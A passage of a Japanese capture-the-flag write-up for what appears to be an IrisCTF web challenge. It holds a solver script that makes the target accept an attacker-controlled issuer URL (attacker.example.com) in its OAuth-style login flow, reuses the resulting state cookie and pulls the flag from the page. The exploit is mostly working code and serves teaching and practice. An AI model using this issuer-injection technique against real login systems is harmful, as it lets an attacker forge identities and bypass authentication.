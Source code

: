 ```js
  res.json({ sub: "..flag" });
});

app.listen(8888);
```

以下のようなスクリプトでフラグを取得できた。

- `solver.js`

```js
import axios from "axios";
import { wrapper } from "axios-cookiejar-support";
import { CookieJar } from "tough-cookie";

const TARGET_URL = process.env.TARGET_URL || "https://target.example.com";
const ATTACKER_URL = process.env.ATTACKER_URL || "https://attacker.example.com";

const client = wrapper(
  axios.create({
    jar: new CookieJar(),
    maxRedirects: 0,
    validateStatus: (status) => status >= 200 && status <= 302,
  })
);

async function start() {
  const data = new URLSearchParams({
    issuer: ATTACKER_URL,
    client_id: "test",
  }).toString();
  const res = await client.post(`${TARGET_URL}/start`, data);
  return res.headers["set-cookie"][0].split(";")[0].split("=")[1];
}

async function redirect(state) {
  const res = await client.get(`${TARGET_URL}/auth_redirect?state=${state}`);
  return res.data;
}

async function top() {
  const res = await client.get(`${TARGET_URL}/`);
  return res.data;
}

async function main() {
  const state = await start();
  await redirect(state);
  const data = await top();
  console.log(data.match(/irisctf\{[^}]+\}/)[0]);
}

try {
  await main();
} catch (e) {
  console.log(e);
}
```
